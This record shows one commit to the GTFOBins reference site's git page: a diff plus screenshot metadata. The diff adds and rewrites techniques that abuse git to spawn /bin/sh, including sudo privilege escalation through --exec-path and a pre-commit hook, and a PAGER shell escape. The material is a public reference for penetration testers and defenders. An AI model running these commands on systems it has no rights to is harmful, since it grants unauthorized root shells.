

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide and 1400 px high, scrolled down 432 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Make the new Git shell follow the conventions

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -13,6 +13,10 @@ functions:
         echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
         mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
         git -C "$TF" commit --allow-empty -m x
+    - code: |
+        TF=$(mktemp -d)
+        ln -s /bin/sh "$TF/git-x"
+        git "--exec-path=$TF" x
   file-read:
     - description: The read file content is displayed in `diff` style output format.
       code: |
@@ -35,12 +39,10 @@ functions:
         echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
         mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
         sudo git -C "$TF" commit --allow-empty -m x
-    - description: If file creation is allowed, it can be used to change Git path
-      code: |
-        mkdir /tmp/git
-        echo '/bin/bash' > /tmp/git/git-escalation
-        chmod +x /tmp/git/git-escalation
-        sudo git --exec-path=/tmp/git escalation
+    - code: |
+        TF=$(mktemp -d)
+        ln -s /bin/sh "$TF/git-x"
+        sudo git "--exec-path=$TF" x
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
 ---
```
